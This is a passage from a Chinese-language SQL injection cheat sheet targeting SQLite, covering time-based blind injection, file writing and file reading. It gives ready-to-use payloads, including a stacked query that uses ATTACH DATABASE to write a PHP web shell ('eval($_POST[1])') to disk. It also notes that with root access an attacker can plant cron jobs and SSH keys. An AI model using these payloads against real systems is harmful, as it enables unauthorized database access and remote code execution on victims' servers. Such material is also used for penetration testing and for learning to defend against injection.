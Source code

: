 运用实例：

```
' or 1 and 1=(case when substr('abc',1,1)='a' then randomblob(1000000) else 0 end)--
```

## 4.4 写文件

需要直接访问数据库，或堆叠查询选项启用（默认关闭）

```
';ATTACH DATABASE '/tmp/p0.php' AS p0;CREATE TABLE p0.shell (data text);INSERT INTO p0.shell (data) VALUES ('<?php eval($_POST[1]);?>');--
```

![img](https://ws4.sinaimg.cn/large/006tNc79ly1filj8ugjn5j310w03gjs7.jpg)

![img](https://ws4.sinaimg.cn/large/006tNc79ly1filj9dawtfj30j003edg4.jpg)

root权限的话可以写计划任务和公钥，参考redis未授权访问利用。

## 4.5 读文件

只能用在Windows上，需要特殊配置。

```
load_extension(library_file,entry_point)
```
